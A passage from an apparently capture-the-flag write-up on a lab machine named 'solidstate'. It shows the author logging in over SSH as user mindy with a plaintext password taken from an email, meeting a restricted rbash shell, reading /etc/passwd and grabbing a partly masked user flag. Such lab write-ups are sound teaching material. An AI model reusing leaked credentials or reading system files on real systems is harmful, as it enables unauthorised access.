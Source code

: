 ```

Respectfully,
James

.

```

mailadmin, despite the juicy username, doesn’t have any email.

### SSH as mindy

I can use the creds from the email to connect over SSH as mindy:

```

root@kali# sshpass -p 'P@55W0rd1!2@' ssh mindy@10.10.10.51
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr 29 21:12:15 2020 from 10.10.14.47
mindy@solidstate:~$

```

As the email suggested, the shell is limited:

```

mindy@solidstate:~$ whoami
-rbash: whoami: command not found
mindy@solidstate:~$ id
-rbash: id: command not found

```

`/etc/passwd` shows that mindy’s shell is `rbash`:

```

mindy@solidstate:~$ cat /etc/passwd
...[snip]...
mindy:x:1001:1001:mindy:/home/mindy:/bin/rbash

```

Even in `rbash`, I can grab `user.txt`:

```

mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
914d0a4e************************

```
